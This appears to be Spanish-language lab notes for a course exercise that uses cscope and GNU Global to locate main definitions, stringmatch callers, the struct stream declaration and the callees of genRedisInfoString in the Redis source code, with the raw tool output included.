main 128 deps/jemalloc/test/unit/oversize_threshold.c main(void) {
main 123 deps/jemalloc/test/unit/pa.c main(void) {
main 163 deps/jemalloc/test/unit/pack.c main(void) {
main 26 deps/jemalloc/test/unit/pages.c main(void) {
main 44 deps/jemalloc/test/unit/peak.c main(void) {
main 326 deps/jemalloc/test/unit/ph.c main(void) {
main 181 deps/jemalloc/test/unit/prng.c main(void) {
main 81 deps/jemalloc/test/unit/prof_accum.c main(void) {
main 116 deps/jemalloc/test/unit/prof_active.c main(void) {
main 74 deps/jemalloc/test/unit/prof_gdump.c main(void) {
main 164 deps/jemalloc/test/unit/prof_hook.c main(void) {
main 54 deps/jemalloc/test/unit/prof_idump.c main(void) {
main 143 deps/jemalloc/test/unit/prof_log.c main(void) {
main 211 deps/jemalloc/test/unit/prof_mdump.c main(void) {
main 670 deps/jemalloc/test/unit/prof_recent.c main(void) {
main 257 deps/jemalloc/test/unit/prof_reset.c main(void) {
main 147 deps/jemalloc/test/unit/prof_stats.c main(void) {
main 74 deps/jemalloc/test/unit/prof_sys_thread_name.c main(void) {
main 45 deps/jemalloc/test/unit/prof_tctx.c main(void) {
main 118 deps/jemalloc/test/unit/prof_thread_name.c main(void) {
main 735 deps/jemalloc/test/unit/psset.c main(void) {
main 306 deps/jemalloc/test/unit/ql.c main(void) {
main 236 deps/jemalloc/test/unit/qr.c main(void) {
main 1012 deps/jemalloc/test/unit/rb.c main(void) {
main 185 deps/jemalloc/test/unit/retained.c main(void) {
main 282 deps/jemalloc/test/unit/rtree.c main(void) {
main 153 deps/jemalloc/test/unit/safety_check.c main(void) {
main 202 deps/jemalloc/test/unit/san.c main(void) {
main 107 deps/jemalloc/test/unit/san_bump.c main(void) {
main 30 deps/jemalloc/test/unit/sc.c main(void) {
main 622 deps/jemalloc/test/unit/sec.c main(void) {
main 91 deps/jemalloc/test/unit/seq.c int main(void) {
main 74 deps/jemalloc/test/unit/size_check.c main(void) {
main 183 deps/jemalloc/test/unit/size_classes.c main(void) {
main 36 deps/jemalloc/test/unit/slab.c main(void) {
main 97 deps/jemalloc/test/unit/smoothstep.c main(void) {
main 15 deps/jemalloc/test/unit/spin.c main(void) {
main 420 deps/jemalloc/test/unit/stats.c main(void) {
main 995 deps/jemalloc/test/unit/stats_print.c main(void) {
main 64 deps/jemalloc/test/unit/sz.c main(void) {
main 173 deps/jemalloc/test/unit/tcache_max.c main(void) {
main 34 deps/jemalloc/test/unit/test_hooks.c main(void) {
main 31 deps/jemalloc/test/unit/thread_event.c main(void) {
main 94 deps/jemalloc/test/unit/ticker.c main(void) {
main 262 deps/jemalloc/test/unit/tsd.c main(void) {
main 257 deps/jemalloc/test/unit/uaf.c main(void) {
main 272 deps/jemalloc/test/unit/witness.c main(void) {
main 55 deps/jemalloc/test/unit/zero.c main(void) {
main 22 deps/jemalloc/test/unit/zero_realloc_abort.c main(void) {
main 45 deps/jemalloc/test/unit/zero_realloc_alloc.c main(void) {
main 30 deps/jemalloc/test/unit/zero_realloc_free.c main(void) {
main 33 deps/jemalloc/test/unit/zero_reallocs.c main(void) {
main 23 deps/linenoise/example.c int main(int argc, char **argv) {
main 32 deps/lua/etc/min.c int main(void)
main 377 deps/lua/src/lua.c int main (int argc, char **argv) {
main 186 deps/lua/src/luac.c int main(int argc, char* argv[])
main 927 modules/vector-sets/expr.c int main(int argc, char **argv) {
main 485 modules/vector-sets/w2v.c int main(int argc, char **argv) {
main 89 src/localtime.c int main(void) {
main 170 src/mt19937-64.c int main(void)
main 1696 src/redis-benchmark.c int main(int argc, char **argv) {
main 10616 src/redis-cli.c int main(int argc, char **argv) {
main 7462 src/server.c int main(int argc, char **argv) {
main 323 src/setproctitle.c int main(int argc, char *argv[]) {
main 363 src/siphash.c int main(void) {
main 18 utils/corrupt_rdb.c int main(int argc, char **argv) {
main 83 utils/lru/lfu-simulation.c int main(void) {
main 75 utils/tracking_collisions.c int main(void) {
Usamos cscope en modo no interactivo para buscar la definición global de main:
cscope -d -L1 main > lista_main_cscope.txt
donde:
-d → usa la base existente, no la reconstruye.-L1 → búsqueda tipo Find this global definition para el símbolo main.lista_main_cscope.txt.Vemos el resultado:
deps/hiredis/examples/example-ae.c main 43 int main (int argc, char **argv) {
deps/hiredis/examples/example-glib.c main 48 main (gint argc G_GNUC_UNUSED,
deps/hiredis/examples/example-ivykis.c main 35 int main (int argc, char **argv) {
deps/hiredis/examples/example-libev.c main 35 int main (int argc, char **argv) {
deps/hiredis/examples/example-libevent-ssl.c main 36 int main (int argc, char **argv) {
deps/hiredis/examples/example-libevent.c main 40 int main (int argc, char **argv) {
deps/hiredis/examples/example-libhv.c main 47 int main (int argc, char **argv) {
deps/hiredis/examples/example-libsdevent.c main 50 int main (int argc, char **argv) {
deps/hiredis/examples/example-libuv.c main 50 int main (int argc, char **argv) {
deps/hiredis/examples/example-macosx.c main 38 int main (int argc, char **argv) {
deps/hiredis/examples/example-poll.c main 42 int main (int argc, char **argv) {
deps/hiredis/examples/example-push.c main 106 int main(int argc, char **argv) {
deps/hiredis/examples/example-ssl.c main 12 int main(int argc, char **argv) {
deps/hiredis/examples/example.c main 58 int main(int argc, char **argv) {
deps/hiredis/sds.c main 1289 int main(void ) {
deps/hiredis/test.c main 2266 int main(int argc, char **argv) {
deps/jemalloc/test/analyze/prof_bias.c main 47 main(void ) {
deps/jemalloc/test/analyze/rand.c main 272 main(void ) {
deps/jemalloc/test/analyze/sizes.c main 32 main() {
deps/jemalloc/test/integration/MALLOCX_ARENA.c main 63 main(void ) {
deps/jemalloc/test/integration/aligned_alloc.c main 151 main(void ) {
deps/jemalloc/test/integration/allocated.c main 116 main(void ) {
deps/jemalloc/test/integration/extent.c main 281 main(void ) {
deps/jemalloc/test/integration/malloc.c main 13 main(void ) {
deps/jemalloc/test/integration/mallocx.c main 267 main(void ) {
deps/jemalloc/test/integration/overflow.c main 56 main(void ) {
deps/jemalloc/test/integration/posix_memalign.c main 123 main(void ) {
deps/jemalloc/test/integration/rallocx.c main 300 main(void ) {
deps/jemalloc/test/integration/sdallocx.c main 51 main(void ) {
deps/jemalloc/test/integration/slab_sizes.c main 77 main(void ) {
deps/jemalloc/test/integration/smallocx.c main 305 main(void ) {
deps/jemalloc/test/integration/thread_arena.c main 83 main(void ) {
deps/jemalloc/test/integration/thread_tcache_enabled.c main 79 main(void ) {
deps/jemalloc/test/integration/xallocx.c main 374 main(void ) {
deps/jemalloc/test/stress/batch_alloc.c main 190 int main(void ) {
deps/jemalloc/test/stress/fill_flush.c main 72 int main(void ) {
deps/jemalloc/test/stress/hookbench.c main 66 main(void ) {
deps/jemalloc/test/stress/large_microbench.c main 29 main(void ) {
deps/jemalloc/test/stress/mallctl.c main 70 main(void ) {
deps/jemalloc/test/stress/microbench.c main 119 main(void ) {
deps/jemalloc/test/unit/SFMT.c main 1593 main(void ) {
deps/jemalloc/test/unit/a0.c main 13 main(void ) {
deps/jemalloc/test/unit/arena_decay.c main 429 main(void ) {
deps/jemalloc/test/unit/arena_reset.c main 355 main(void ) {
deps/jemalloc/test/unit/atomic.c main 221 main(void ) {
deps/jemalloc/test/unit/background_thread.c main 113 main(void ) {
deps/jemalloc/test/unit/background_thread_enable.c main 92 main(void ) {
deps/jemalloc/test/unit/base.c main 258 main(void ) {
deps/jemalloc/test/unit/batch_alloc.c main 182 main(void ) {
deps/jemalloc/test/unit/binshard.c main 149 main(void ) {
deps/jemalloc/test/unit/bit_util.c main 280 main(void ) {
deps/jemalloc/test/unit/bitmap.c main 335 main(void ) {
deps/jemalloc/test/unit/buf_writer.c main 189 main(void ) {
deps/jemalloc/test/unit/cache_bin.c main 381 main(void ) {
deps/jemalloc/test/unit/ckh.c main 206 main(void ) {
deps/jemalloc/test/unit/counter.c main 76 main(void ) {
deps/jemalloc/test/unit/decay.c main 274 main(void ) {
deps/jemalloc/test/unit/div.c main 26 main(void ) {
deps/jemalloc/test/unit/double_free.c main 74 main(void ) {
deps/jemalloc/test/unit/edata_cache.c main 220 main(void ) {
deps/jemalloc/test/unit/emitter.c main 523 main(void ) {
deps/jemalloc/test/unit/extent_quantize.c main 136 main(void ) {
deps/jemalloc/test/unit/fb.c main 938 main(void ) {
deps/jemalloc/test/unit/fork.c main 137 main(void ) {
deps/jemalloc/test/unit/fxp.c main 381 main(void ) {
deps/jemalloc/test/unit/hash.c main 168 main(void ) {
deps/jemalloc/test/unit/hook.c main 574 main(void ) {
deps/jemalloc/test/unit/hpa.c main 441 main(void ) {
deps/jemalloc/test/unit/hpa_background_thread.c main 170 main(void ) {
deps/jemalloc/test/unit/hpdata.c main 237 int main(void ) {
deps/jemalloc/test/unit/huge.c main 103 main(void ) {
deps/jemalloc/test/unit/inspect.c main 274 main(void ) {
deps/jemalloc/test/unit/junk.c main 185 main(void ) {
deps/jemalloc/test/unit/log.c main 190 main(void ) {
deps/jemalloc/test/unit/mallctl.c main 1237 main(void ) {
deps/jemalloc/test/unit/malloc_conf_2.c main 26 main(void ) {
deps/jemalloc/test/unit/malloc_io.c main 262 main(void ) {
deps/jemalloc/test/unit/math.c main 382 main(void ) {
deps/jemalloc/test/unit/mpsc_queue.c main 298 main(void ) {
deps/jemalloc/test/unit/mq.c main 84 main(void ) {
deps/jemalloc/test/unit/mtx.c main 53 main(void ) {
deps/jemalloc/test/unit/nstime.c main 237 main(void ) {
deps/jemalloc/test/unit/oversize_threshold.c main 128 main(void ) {
deps/jemalloc/test/unit/pa.c main 123 main(void ) {
deps/jemalloc/test/unit/pack.c main 163 main(void ) {
deps/jemalloc/test/unit/pages.c main 26 main(void ) {
deps/jemalloc/test/unit/peak.c main 44 main(void ) {
deps/jemalloc/test/unit/ph.c main 326 main(void ) {
deps/jemalloc/test/unit/prng.c main 181 main(void ) {
deps/jemalloc/test/unit/prof_accum.c main 81 main(void ) {
deps/jemalloc/test/unit/prof_active.c main 116 main(void ) {
deps/jemalloc/test/unit/prof_gdump.c main 74 main(void ) {
deps/jemalloc/test/unit/prof_hook.c main 164 main(void ) {
deps/jemalloc/test/unit/prof_idump.c main 54 main(void ) {
deps/jemalloc/test/unit/prof_log.c main 143 main(void ) {
deps/jemalloc/test/unit/prof_mdump.c main 211 main(void ) {
deps/jemalloc/test/unit/prof_recent.c main 670 main(void ) {
deps/jemalloc/test/unit/prof_reset.c main 257 main(void ) {
deps/jemalloc/test/unit/prof_stats.c main 147 main(void ) {
deps/jemalloc/test/unit/prof_sys_thread_name.c main 74 main(void ) {
deps/jemalloc/test/unit/prof_tctx.c main 45 main(void ) {
deps/jemalloc/test/unit/prof_thread_name.c main 118 main(void ) {
deps/jemalloc/test/unit/psset.c main 735 main(void ) {
deps/jemalloc/test/unit/ql.c main 306 main(void ) {
deps/jemalloc/test/unit/qr.c main 236 main(void ) {
deps/jemalloc/test/unit/rb.c main 1012 main(void ) {
deps/jemalloc/test/unit/retained.c main 185 main(void ) {
deps/jemalloc/test/unit/rtree.c main 282 main(void ) {
deps/jemalloc/test/unit/safety_check.c main 153 main(void ) {
deps/jemalloc/test/unit/san.c main 202 main(void ) {
deps/jemalloc/test/unit/san_bump.c main 107 main(void ) {
deps/jemalloc/test/unit/sc.c main 30 main(void ) {
deps/jemalloc/test/unit/sec.c main 622 main(void ) {
deps/jemalloc/test/unit/seq.c main 91 int main(void ) {
deps/jemalloc/test/unit/size_check.c main 74 main(void ) {
deps/jemalloc/test/unit/size_classes.c main 183 main(void ) {
deps/jemalloc/test/unit/slab.c main 36 main(void ) {
deps/jemalloc/test/unit/smoothstep.c main 97 main(void ) {
deps/jemalloc/test/unit/spin.c main 15 main(void ) {
deps/jemalloc/test/unit/stats.c main 420 main(void ) {
deps/jemalloc/test/unit/stats_print.c main 995 main(void ) {
deps/jemalloc/test/unit/sz.c main 64 main(void ) {
deps/jemalloc/test/unit/tcache_max.c main 173 main(void ) {
deps/jemalloc/test/unit/test_hooks.c main 34 main(void ) {
deps/jemalloc/test/unit/thread_event.c main 31 main(void ) {
deps/jemalloc/test/unit/ticker.c main 94 main(void ) {
deps/jemalloc/test/unit/tsd.c main 262 main(void ) {
deps/jemalloc/test/unit/uaf.c main 257 main(void ) {
deps/jemalloc/test/unit/witness.c main 272 main(void ) {
deps/jemalloc/test/unit/zero.c main 55 main(void ) {
deps/jemalloc/test/unit/zero_realloc_abort.c main 22 main(void ) {
deps/jemalloc/test/unit/zero_realloc_alloc.c main 45 main(void ) {
deps/jemalloc/test/unit/zero_realloc_free.c main 30 main(void ) {
deps/jemalloc/test/unit/zero_reallocs.c main 33 main(void ) {
deps/linenoise/example.c main 23 int main(int argc, char **argv) {
deps/lua/etc/min.c main 32 int main(void )
deps/lua/src/lua.c main 377 int main (int argc, char **argv) {
deps/lua/src/luac.c main 186 int main(int argc, char * argv[])
modules/vector-sets/expr.c main 927 int main(int argc, char **argv) {
modules/vector-sets/w2v.c main 485 int main(int argc, char **argv) {
src/localtime.c main 89 int main(void ) {
src/mt19937-64.c main 170 int main(void )
src/redis-benchmark.c main 1696 int main(int argc, char **argv) {
src/redis-cli.c main 10616 int main(int argc, char **argv) {
src/server.c main 7462 int main(int argc, char **argv) {
src/setproctitle.c main 323 int main(int argc, char *argv[]) {
src/siphash.c main 363 int main(void ) {
utils/corrupt_rdb.c main 18 int main(int argc, char **argv) {
utils/lru/lfu-simulation.c main 83 int main(void ) {
utils/tracking_collisions.c main 75 int main(void ) {
Buscamos todas las referencias a stringmatch:
global -rx stringmatch

cd redis
find . -name '*.[ch]' > cscope.files # solo si no tenemos la Base de Datos
cscope -b -q -k -i cscope.files # solo una vez
cscope -d -L3 stringmatch > referencias_stringmatch.txt
cat callers_stringmatch.txt # copiar o capturar
donde:
-d → Para que use la base de datos, no la reconstruye.-L3 → “functions calling this function” (la opción 3 del menú interactivo).stringmatch → el símbolo a buscar.src/config.c configGetCommand 978 if (stringmatch(name, dictGetKey(de), 1)) {
src/config.c moduleConfigIteratorNext 3517 if (!pattern || stringmatch(pattern, config->name, 1))
src/sentinel.c sentinelResetMastersByPattern 1561 if (stringmatch(pattern,ri->name,0)) {
src/sentinel.c sentinelConfigGetCommand 3322 if (stringmatch(pattern,"resolve-hostnames",1) && !dictFind(d, "resolve-hostnames")) {
src/sentinel.c sentinelConfigGetCommand 3328 if (stringmatch(pattern, "announce-hostnames", 1) && !dictFind(d, "announce-hostnames")) {
src/sentinel.c sentinelConfigGetCommand 3334 if (stringmatch(pattern, "announce-ip", 1) && !dictFind(d, "announce-ip")) {
src/sentinel.c sentinelConfigGetCommand 3340 if (stringmatch(pattern, "announce-port", 1) && !dictFind(d, "announce-port")) {
src/sentinel.c sentinelConfigGetCommand 3346 if (stringmatch(pattern, "sentinel-user", 1) && !dictFind(d, "sentinel-user")) {
src/sentinel.c sentinelConfigGetCommand 3352 if (stringmatch(pattern, "sentinel-pass", 1) && !dictFind(d, "sentinel-pass")) {
src/sentinel.c sentinelConfigGetCommand 3358 if (stringmatch(pattern, "loglevel", 1) && !dictFind(d, "loglevel")) {
Tanto el archivo donde está, como la línea donde comienza. Debéis hacerlo usando las herramientas, no vale con mostrar su localización, debéis mostrar como se localiza.
En C, un struct es una estructura de datos: un tipo que agrupa varias variables bajo un mismo nombre. En Redis existe un tipo de datos complejo llamado struct stream, que guarda toda la información relacionada con un stream (una estructura interna de Redis).
Tenemos que buscar el sitio del código donde se define esa estructura. Aparecerá algo de este estilo:
typedef struct stream {
/* campos... */
} stream;
/* o algo parecido a: */
struct stream {
/* campos... */
};
global -x stream
 donde:
donde:
stream en la base de datos GTAGS.-x → Las imprime en formato tipo cross-reference.struct stream.typedef stream (el alias sin struct). Forma parte de la misma declaración, pero ya no es el struct stream sino el nombre de tipo abreviado stream.Usando GNU Global con global -x stream localizamos la declaración de struct stream en el archivo src/stream.h, en la línea 16.
cscope -d -L4 "struct stream"
 donde:
donde:
-d → Para que use la BD existente, no la reconstruye.-L4 → tipo de búsqueda Find this text string.Usando scope vemos todas las líneas donde aparace: struct stream. Por ello vemos múltiples resultados
Para que busque como cadena completa y SÓLO muestre un único resultado:
cscope -d -L4 "typedef struct stream "
# ^ espacio al final

Solución: La declaración de struct stream está en:
src/stream.h.genRedisInfoStringcscope -d -L2 genRedisInfoString > genRedisInfoString.txt
donde:
-d → Para que use la base de datos existente, no la reconstruye.-L2 → functions called by this function.genRedisInfoString → la función que queremos analizar.Resultado que vemos por línea: Archivo donde está la referencia. Función llamada por genRedisInfoString. Número de línea. Un poco del código de esa línea:
src/server.c sdsempty 5969 sds info = sdsempty();
src/server.c dictFind 5976 if (all_sections || (dictFind(section_dict,"server") != NULL)) {
src/server.c sdscat 5994 if (sections++) info = sdscat(info,"\r\n");
src/server.c uname 5998 uname(&name);
src/server.c sdscatfmt 6002 info = sdscatfmt(info, "# Server\r\n" FMTARGS(
src/server.c FMTARGS 6002 info = sdscatfmt(info, "# Server\r\n" FMTARGS(
src/server.c redisGitSHA1 6004 "redis_git_sha1:%s\r\n", redisGitSHA1(),
src/server.c strtol 6005 "redis_git_dirty:%i\r\n", strtol(redisGitDirty(),NULL,10) > 0,
src/server.c redisGitDirty 6005 "redis_git_dirty:%i\r\n", strtol(redisGitDirty(),NULL,10) > 0,
src/server.c redisBuildIdString 6006 "redis_build_id:%s\r\n", redisBuildIdString(),
src/server.c monotonicInfoString 6012 "monotonic_clock:%s\r\n", monotonicInfoString(),
src/server.c aeGetApiName 6013 "multiplexing_api:%s\r\n", aeGetApiName(),
src/server.c getpid 6016 "process_id:%I\r\n", (int64_t) getpid(),
src/server.c isShutdownInitiated 6031 if (isShutdownInitiated()) {
src/server.c sdscatfmt 6032 info = sdscatfmt(info,
src/server.c commandTimeSnapshot 6034 (int64_t)(server.shutdown_mstime - commandTimeSnapshot()));
src/server.c getListensInfoString 6038 info = getListensInfoString(info);
src/server.c dictFind 6042 if (all_sections || (dictFind(section_dict,"clients") != NULL)) {
src/server.c getExpansiveClientsInfo 6045 getExpansiveClientsInfo(&maxin,&maxout);
src/server.c totalNumberOfStatefulKeys 6046 totalNumberOfStatefulKeys(&blocking_keys, &blocking_keys_on_nokey, &watched_keys);
src/server.c sdscat 6047 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6048 info = sdscatprintf(info, "# Clients\r\n" FMTARGS(
src/server.c FMTARGS 6048 info = sdscatprintf(info, "# Clients\r\n" FMTARGS(
src/server.c listLength 6049 "connected_clients:%lu\r\n", listLength(server.clients) - listLength(server.slaves),
src/server.c getClusterConnectionsCount 6050 "cluster_connections:%lu\r\n", getClusterConnectionsCount(),
src/server.c raxSize 6058 "clients_in_timeout_table:%llu\r\n", (unsigned long long ) raxSize(server.clients_timeout_table),
src/server.c dictFind 6065 if (all_sections || (dictFind(section_dict,"memory") != NULL)) {
src/server.c zmalloc_used_memory 6074 size_t zmalloc_used = zmalloc_used_memory();
src/server.c evictPolicyToString 6076 const char *evict_policy = evictPolicyToString();
src/server.c evalScriptsMemoryVM 6077 long long memory_lua = evalScriptsMemoryVM();
src/server.c functionsMemoryVM 6078 long long memory_functions = functionsMemoryVM();
src/server.c getMemoryOverheadData 6079 struct redisMemOverhead *mh = getMemoryOverheadData();
src/server.c updatePeakMemory 6085 updatePeakMemory(zmalloc_used);
src/server.c bytesToHuman 6087 bytesToHuman(hmem,sizeof(hmem),zmalloc_used);
src/server.c bytesToHuman 6088 bytesToHuman(peak_hmem,sizeof(peak_hmem),server.stat_peak_memory);
src/server.c bytesToHuman 6089 bytesToHuman(total_system_hmem,sizeof(total_system_hmem),total_system_mem);
src/server.c bytesToHuman 6090 bytesToHuman(used_memory_lua_hmem,sizeof(used_memory_lua_hmem),memory_lua);
src/server.c bytesToHuman 6091 bytesToHuman(used_memory_vm_total_hmem,sizeof(used_memory_vm_total_hmem),memory_functions + memory_lua);
src/server.c bytesToHuman 6092 bytesToHuman(used_memory_scripts_hmem,sizeof(used_memory_scripts_hmem),mh->eval_caches + mh->functions_caches);
src/server.c bytesToHuman 6093 bytesToHuman(used_memory_rss_hmem,sizeof(used_memory_rss_hmem),server.cron_malloc_stats.process_rss);
src/server.c bytesToHuman 6094 bytesToHuman(maxmemory_hmem,sizeof(maxmemory_hmem),server.maxmemory);
src/server.c sdscat 6096 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6097 info = sdscatprintf(info, "# Memory\r\n" FMTARGS(
src/server.c FMTARGS 6097 info = sdscatprintf(info, "# Memory\r\n" FMTARGS(
src/server.c dictSize 6120 "number_of_cached_scripts:%lu\r\n", dictSize(evalScriptsDict()),
src/server.c evalScriptsDict 6120 "number_of_cached_scripts:%lu\r\n", dictSize(evalScriptsDict()),
src/server.c functionsNum 6121 "number_of_functions:%lu\r\n", functionsNum(),
src/server.c functionsLibNum 6122 "number_of_libraries:%lu\r\n", functionsLibNum(),
src/server.c freeMemoryGetNotCountedMemory 6144 "mem_not_counted_for_evict:%zu\r\n", freeMemoryGetNotCountedMemory(),
src/server.c asmGetPeakSyncBufferSize 6152 "mem_cluster_slot_migration_input_buffer_peak:%zu\r\n", asmGetPeakSyncBufferSize(),
src/server.c lazyfreeGetPendingObjectsCount 6158 "lazyfree_pending_objects:%zu\r\n", lazyfreeGetPendingObjectsCount(),
src/server.c lazyfreeGetFreedObjectsCount 6159 "lazyfreed_objects:%zu\r\n", lazyfreeGetFreedObjectsCount()));
src/server.c freeMemoryOverheadData 6160 freeMemoryOverheadData(mh);
src/server.c dictFind 6164 if (all_sections || (dictFind(section_dict,"persistence") != NULL)) {
src/server.c sdscat 6165 if (sections++) info = sdscat(info,"\r\n");
src/server.c atomicGet 6173 atomicGet(server.aof_bio_fsync_status,aof_bio_fsync_status);
src/server.c sdscatprintf 6175 info = sdscatprintf(info, "# Persistence\r\n" FMTARGS(
src/server.c FMTARGS 6175 info = sdscatprintf(info, "# Persistence\r\n" FMTARGS(
src/server.c elapsedMs 6181 (unsigned long ) elapsedMs(server.stat_current_cow_updated) / 1000 : 0),
src/server.c time 6191 -1 : time(NULL)-server.rdb_save_time_start),
src/server.c time 6202 -1 : time(NULL)-server.aof_rewrite_time_start),
src/server.c sdscatprintf 6214 info = sdscatprintf(info, FMTARGS(
src/server.c FMTARGS 6214 info = sdscatprintf(info, FMTARGS(
src/server.c sdslen 6218 "aof_buffer_length:%zu\r\n", sdslen(server.aof_buf),
src/server.c bioPendingJobsOfType 6219 "aof_pending_bio_fsync:%lu\r\n", bioPendingJobsOfType(BIO_AOF_FSYNC),
src/server.c time 6239 elapsed = time(NULL)-server.loading_start_time;
src/server.c sdscatprintf 6247 info = sdscatprintf(info, FMTARGS(
src/server.c FMTARGS 6247 info = sdscatprintf(info, FMTARGS(
src/server.c dictFind 6261 if (all_sections || (dictFind(section_dict,"threads") != NULL)) {
src/server.c sdscat 6262 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6263 info = sdscatprintf(info, "# Threads\r\n");
src/server.c atomicGet 6266 atomicGet(server.stat_io_reads_processed[j], reads);
src/server.c atomicGet 6267 atomicGet(server.stat_io_writes_processed[j], writes);
src/server.c sdscatprintf 6268 info = sdscatprintf(info, "io_thread_%d:clients=%d,reads=%lld,writes=%lld\r\n",
src/server.c dictFind 6279 if (all_sections || (dictFind(section_dict,"stats") != NULL)) {
src/server.c elapsedUs 6283 (long long ) elapsedUs(server.stat_last_eviction_exceeded_time): 0;
src/server.c elapsedUs 6285 (long long ) elapsedUs(server.stat_last_active_defrag_time): 0;
src/server.c atomicGet 6287 atomicGet(server.stat_net_input_bytes, stat_net_input_bytes);
src/server.c atomicGet 6288 atomicGet(server.stat_net_output_bytes, stat_net_output_bytes);
src/server.c atomicGet 6289 atomicGet(server.stat_net_repl_input_bytes, stat_net_repl_input_bytes);
src/server.c atomicGet 6290 atomicGet(server.stat_net_repl_output_bytes, stat_net_repl_output_bytes);
src/server.c atomicGet 6291 atomicGet(server.stat_client_qbuf_limit_disconnections, stat_client_qbuf_limit_disconnections);
src/server.c atomicGet 6298 atomicGet(server.stat_io_reads_processed[j], reads);
src/server.c atomicGet 6301 atomicGet(server.stat_io_writes_processed[j], writes);
src/server.c sdscat 6307 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6308 info = sdscatprintf(info, "# Stats\r\n" FMTARGS(
src/server.c FMTARGS 6308 info = sdscatprintf(info, "# Stats\r\n" FMTARGS(
src/server.c getInstantaneousMetric 6311 "instantaneous_ops_per_sec:%lld\r\n", getInstantaneousMetric(STATS_METRIC_COMMAND),
src/server.c getInstantaneousMetric 6316 "instantaneous_input_kbps:%.2f\r\n", (float )getInstantaneousMetric(STATS_METRIC_NET_INPUT)/1024,
src/server.c getInstantaneousMetric 6317 "instantaneous_output_kbps:%.2f\r\n", (float )getInstantaneousMetric(STATS_METRIC_NET_OUTPUT)/1024,
src/server.c getInstantaneousMetric 6318 "instantaneous_input_repl_kbps:%.2f\r\n", (float )getInstantaneousMetric(STATS_METRIC_NET_INPUT_REPLICATION)/1024,
src/server.c getInstantaneousMetric 6319 "instantaneous_output_repl_kbps:%.2f\r\n", (float )getInstantaneousMetric(STATS_METRIC_NET_OUTPUT_REPLICATION)/1024,
src/server.c kvstoreSize 6336 "pubsub_channels:%llu\r\n", kvstoreSize(server.pubsub_channels),
src/server.c dictSize 6337 "pubsub_patterns:%lu\r\n", dictSize(server.pubsub_patterns),
src/server.c kvstoreSize 6338 "pubsubshard_channels:%llu\r\n", kvstoreSize(server.pubsubshard_channels),
src/server.c dictSize 6341 "migrate_cached_sockets:%ld\r\n", dictSize(server.migrate_cached_sockets),
src/server.c getSlaveKeyWithExpireCount 6342 "slave_expires_tracked_keys:%zu\r\n", getSlaveKeyWithExpireCount(),
src/server.c trackingGetTotalKeys 6349 "tracking_total_keys:%lld\r\n", (unsigned long long ) trackingGetTotalKeys(),
src/server.c trackingGetTotalItems 6350 "tracking_total_items:%lld\r\n", (unsigned long long ) trackingGetTotalItems(),
src/server.c trackingGetTotalPrefixes 6351 "tracking_total_prefixes:%lld\r\n", (unsigned long long ) trackingGetTotalPrefixes(),
src/server.c getInstantaneousMetric 6368 "instantaneous_eventloop_cycles_per_sec:%llu\r\n", getInstantaneousMetric(STATS_METRIC_EL_CYCLE),
src/server.c getInstantaneousMetric 6369 "instantaneous_eventloop_duration_usec:%llu\r\n", getInstantaneousMetric(STATS_METRIC_EL_DURATION)));
src/server.c genRedisInfoStringACLStats 6370 info = genRedisInfoStringACLStats(info);
src/server.c sdscatprintf 6372 info = sdscatprintf(info, "cluster_incompatible_ops:%lld\r\n", server.stat_cluster_incompatible_ops);
src/server.c dictFind 6377 if (all_sections || (dictFind(section_dict,"replication") != NULL)) {
src/server.c sdscat 6378 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6379 info = sdscatprintf(info,
src/server.c sdscatprintf 6397 info = sdscatprintf(info, FMTARGS(
src/server.c FMTARGS 6397 info = sdscatprintf(info, FMTARGS(
src/server.c sdscatprintf 6414 info = sdscatprintf(info, FMTARGS(
src/server.c FMTARGS 6414 info = sdscatprintf(info, FMTARGS(
src/server.c sdscatprintf 6423 info = sdscatprintf(info,
src/server.c sdscatprintf 6428 info = sdscatprintf(info,
src/server.c sdscatprintf 6433 info = sdscatprintf(info, "total_disconnect_time_sec:%jd\r\n", (intmax_t)server.repl_total_disconnect_time+(current_disconnect_time));
src/server.c sdscatprintf 6435 info = sdscatprintf(info, FMTARGS(
src/server.c FMTARGS 6435 info = sdscatprintf(info, FMTARGS(
src/server.c sdscatprintf 6441 info = sdscatprintf(info,
src/server.c replicationLogicalReplicaCount 6443 replicationLogicalReplicaCount());
src/server.c sdscatprintf 6449 info = sdscatprintf(info,
src/server.c listLength 6454 if (listLength(server.slaves)) {
src/server.c listRewind 6459 listRewind(server.slaves,&li);
src/server.c listNext 6460 while ((ln = listNext(&li))) {
src/server.c listNodeValue 6461 client *slave = listNodeValue(ln);
src/server.c replicationCheckHasMainChannel 6471 if (replicationCheckHasMainChannel(slave))
src/server.c connAddrPeerName 6479 if (connAddrPeerName(slave->conn,ip,sizeof(ip),&port) == -1)
src/server.c replstateToString 6483 const char *state = replstateToString(slave->replstate);
src/server.c time 6486 lag = time(NULL) - slave->repl_ack_time;
src/server.c sdscatprintf 6488 info = sdscatprintf(info,
src/server.c sdscatprintf 6496 info = sdscatprintf(info, FMTARGS(
src/server.c FMTARGS 6496 info = sdscatprintf(info, FMTARGS(
src/server.c getFailoverStateString 6497 "master_failover_state:%s\r\n", getFailoverStateString(),
src/server.c dictFind 6509 if (all_sections || (dictFind(section_dict,"cpu") != NULL)) {
src/server.c sdscat 6510 if (sections++) info = sdscat(info,"\r\n");
src/server.c getrusage 6513 getrusage(RUSAGE_SELF, &self_ru);
src/server.c getrusage 6514 getrusage(RUSAGE_CHILDREN, &c_ru);
src/server.c sdscatprintf 6515 info = sdscatprintf(info,
src/server.c getrusage 6527 getrusage(RUSAGE_THREAD, &m_ru);
src/server.c sdscatprintf 6528 info = sdscatprintf(info,
src/server.c dictFind 6537 if (all_sections || (dictFind(section_dict,"module_list") != NULL) || (dictFind(section_dict,"modules") != NULL)) {
src/server.c sdscat 6538 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6539 info = sdscatprintf(info,"# Modules\r\n");
src/server.c genModulesInfoString 6540 info = genModulesInfoString(info);
src/server.c dictFind 6544 if (all_sections || (dictFind(section_dict,"commandstats") != NULL)) {
src/server.c sdscat 6545 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6546 info = sdscatprintf(info, "# Commandstats\r\n");
src/server.c genRedisInfoStringCommandStats 6547 info = genRedisInfoStringCommandStats(info, server.commands);
src/server.c dictFind 6551 if (all_sections || (dictFind(section_dict,"errorstats") != NULL)) {
